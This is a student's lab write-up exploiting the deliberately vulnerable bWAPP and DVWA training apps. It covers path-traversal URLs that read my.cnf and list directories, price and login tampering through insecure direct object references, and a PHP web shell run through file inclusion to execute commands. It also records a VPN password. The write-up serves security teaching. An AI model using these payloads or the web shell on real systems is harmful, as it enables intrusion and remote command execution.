

# Assignment 4 - Path traversal, file inclusion & Insecure direct object references

## 1. Using the "OWASP bWAPP" application "Directory Traversal - Files" section, display the contents of the MySQL configuration file (my.cnf).

### Work environment -steps

- open Kali VM
- open terminal in `c22` folder
- run `sudo openvpn hacknet.ovpn`
- introduce password received on email (H8kZ8j)
- access link `https://10.200.10.1/hnet` in browser
- for this assignment I've accessed the server with ip address `10.200.122.18`
- It should be here


The highlighted text represents the username, respectively the password to login into the app



Here I've set the security level to `low`, pressed `set` and I've selected the required section, then I pressed  `hack`. The following message is displayed:


### Solving

I want to craft an url to access the desired file. It would look like this:

```
http://10.200.122.18/bWAPP/directory_traversal_1.php?page=/etc/mysql/my.cnf (the value of the page parameter is the specific location of the .my.cnf file in Debian/Ubuntu OS)
```

The content returned from site is the following:

```
#
# The MySQL database server configuration file.
#
# You can copy this to one of:
# - "/etc/mysql/my.cnf" to set global options,
# - "~/.my.cnf" to set user-specific options.
#
# One can use all long options that the program supports.
# Run program with --help to get a list of available options and with
# --print-defaults to see which it would actually understand and use.
#
# For explanations see
# http://dev.mysql.com/doc/mysql/en/server-system-variables.html

# This will be passed to all mysql clients
# It has been reported that passwords should be enclosed with ticks/quotes
# escpecially if they contain "#" chars...
# Remember to edit /etc/mysql/debian.cnf when changing the socket location.
[client]
port = 3306
socket = /var/run/mysqld/mysqld.sock

# Here is entries for some specific programs
# The following values assume you have at least 32M ram

# This was formally known as [safe_mysqld]. Both versions are currently parsed.
[mysqld_safe]
socket = /var/run/mysqld/mysqld.sock
nice = 0

[mysqld]
#
# * Basic Settings
#

#
# * IMPORTANT
# If you make changes to these settings and your system uses apparmor, you may
# also need to also adjust /etc/apparmor.d/usr.sbin.mysqld.
#

user = mysql
pid-file = /var/run/mysqld/mysqld.pid
socket = /var/run/mysqld/mysqld.sock
port = 3306
basedir = /usr
datadir = /var/lib/mysql
tmpdir = /tmp
skip-external-locking
#
# Instead of skip-networking the default is now to listen only on
# localhost which is more compatible and is not less secure.
bind-address = 127.0.0.1
#
# * Fine Tuning
#
key_buffer = 16M
max_allowed_packet = 16M
thread_stack = 192K
thread_cache_size = 8
# This replaces the startup script and checks MyISAM tables if needed
# the first time they are touched
myisam-recover = BACKUP
#max_connections = 100
#table_cache = 64
#thread_concurrency = 10
#
# * Query Cache Configuration
#
query_cache_limit = 1M
query_cache_size = 16M
#
# * Logging and Replication
#
# Both location gets rotated by the cronjob.
# Be aware that this log type is a performance killer.
# As of 5.1 you can enable the log at runtime!
general_log_file = /var/log/mysql/mysql.log
general_log = 1
#
# Error logging goes to syslog due to /etc/mysql/conf.d/mysqld_safe_syslog.cnf.
#
# Here you can see queries with especially long duration
#log_slow_queries = /var/log/mysql/mysql-slow.log
#long_query_time = 2
#log-queries-not-using-indexes
#
# The following can be used as easy to replay backup logs or for replication.
# note: if you are setting up a replication slave, see README.Debian about
# other settings you may need to change.
#server-id = 1
#log_bin = /var/log/mysql/mysql-bin.log
expire_logs_days = 10
max_binlog_size = 100M
#binlog_do_db = include_database_name
#binlog_ignore_db = include_database_name
#
# * InnoDB
#
# InnoDB is enabled by default with a 10MB datafile in /var/lib/mysql/.
# Read the manual for more InnoDB related options. There are many!
#
# * Security Features
#
# Read the manual, too, if you want chroot!
# chroot = /var/lib/mysql/
#
# For generating SSL certificates I recommend the OpenSSL GUI "tinyca".
#
# ssl-ca=/etc/mysql/cacert.pem
# ssl-cert=/etc/mysql/server-cert.pem
# ssl-key=/etc/mysql/server-key.pem

# lower_case_table_names added for OWASP BWA. Some apps written on Windows don't
# consistently use the same case for database / table names so we make mysql use
# lower case for all identifiers.
lower_case_table_names = 1

[mysqldump]
quick
quote-names
max_allowed_packet = 16M

[mysql]
#no-auto-rehash # faster start of mysql but no tab completition

[isamchk]
key_buffer = 16M

# Create a second database instance on 3307 that is used by the Security Shepherd application
[mysqld1]
user = mysql
pid-file = /var/run/mysqld/mysqld1.pid
socket = /var/run/mysqld/mysqld1.sock
port = 3307
basedir = /usr
datadir = /var/lib/mysql1
tmpdir = /tmp
bind-address = 127.0.0.1
general_log_file = /var/log/mysql/mysql1.log
general_log = 1
lower_case_table_names = 1


# End MySQL 3307 changes


#
# * IMPORTANT: Additional settings that can override those from this file!
# The files must end with '.cnf', otherwise they'll be ignored.
#
!includedir /etc/mysql/conf.d/

```

## 2. Using the "OWASP bWAPP" application "Directory Traversal - Directories" section, display files in the home directory of the user who has a home directory.

The url that opens is the following: `http://10.200.122.18/bWAPP/directory_traversal_2.php?directory=documents`

I tried to access the root to see if the user has a `home` folder: `http://10.200.122.18/bWAPP/directory_traversal_2.php?directory=/`

The content is the following:

```
usr
initrd.img
lib
etc
root
vmlinuz
sys
owaspbwa
proc
vmlinuz.old
bin
sbin
var
home
lost+found
boot
.gem
dev
initrd.img.old
srv
tmp
media
mnt
cdrom
opt
selinux
```

Then I replaced the root value with `/home`

The content is the folder `user`

-> `/home/user`:

```
.bashrc
.bash_logout
.profile
Maildir
.sudo_as_admin_successful
```

## 3. By using the "OWASP bWapp" "Insecure DOR (Order Tickets)" section, you can change the price of a ticket so that the total price displayed is based on the price you have written.


Checked the [source code](https://github.com/lmoroz/bWAPP/blob/0e5f2d335d25a91151408a3aa9c48f06b473af4c/bWAPP/insecure_direct_object_ref_2.php#L108). The parameters for price and quntity are

- ticket_price
- ticket_quantity

So, the new url will look like this: `http://10.200.122.18/bWAPP/insecure_direct_object_ref_2.php?ticket_price=5&ticket_quantity=2`


## 4. By exploiting the "OWASP bWapp" section "Insecure DOR (Reset Secret)" and "OWASP bWapp" / "Insecure DOR (Change Secret)" you change the name of the user making the request.

- Insecure DOR (Change Secret)


Before completing the exercise, I've installed the [Burp Suite Community Edition](https://portswigger.net/burp/releases/professional-community-2025-3-4?requestededition=community&requestedplatform=) tool for intercepting requests.

Then I've opened the app locally and from there a browser from where I access the bWapp application. Turned on the Interception.


When pressing `Any bugs?` button, the xxe-2.php request is send, but intercepted by burp on the right side.

Inspecting the request data, I saw that an xml data is sent

```xml
<reset><login>bee</login><secret>Any bugs?</secret></reset>
```

The login tag represents the user. So this can be changed and after that forwarded. This can be checked in the final request's response.


- Insecure DOR (Reset Secret)


The same approach was applied for Reset Secret too, but the file open from url should be `http://10.200.122.18/bWAPP/insecure_direct_object_ref_3.php`


## 5. By exploiting the "Damn Vulnerable Web " "File Inclusion" section, display the contents of the files: /etc/passwd, /etc/hosts, /etc/locale.alias, /etc/networks, /etc/group.


Credentials:

- username: admin
- password: admin


## 6. Exploit the "Damn Vulnerable Web App" application's "File Inclusion" section so that you can remotely execute commands on the attacked computer.

Credentials: admin, admin

Before completing the exercise, I've build a php server locally:

```
<?php
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    $output = shell_exec($cmd);
    echo "<pre>$output</pre>";
} else {
    echo "No command provided.";
}
?>
```

After that I've uploaded this php file via `Upload` section.

Then, It has shown me the path where the file was downloaded: `../../hackable/uploads/shell.php`

I also want to inject the file with a certain command to see if it works as expected. It should execute the command provided. The url will be `http://10.200.122.18/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/shell.php?cmd=ls`


Double checked with bwapp app


